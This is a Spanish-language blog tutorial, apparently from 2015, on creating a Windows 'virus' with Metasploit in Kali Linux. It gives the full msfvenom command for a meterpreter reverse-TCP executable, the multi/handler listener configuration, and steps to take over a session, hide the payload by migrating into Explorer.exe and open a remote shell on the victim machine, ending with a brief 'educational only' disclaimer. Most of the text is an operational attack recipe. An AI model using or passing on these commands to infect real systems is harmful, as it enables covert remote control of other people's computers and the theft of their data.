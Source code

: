 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux

Publicado el 9 de agosto de 2015 por David

## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe'
'-p': Especifica el payload a utilizar.
'-a': Define la arquitectura que utilizará el virus.
'--platform': Determina la plataforma en la que actuará el virus.
'-o': Establece el directorio donde se guardará el virus.
'-f': Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.116
set LPORT 9999
exploit -j

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando 'sessions -i' para ver las sesiones activas y conectarte a la máquina atacada:
'sessions -i 1'

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como 'Explorer.exe' usando el comando 'migrate'.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
'shell'

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.
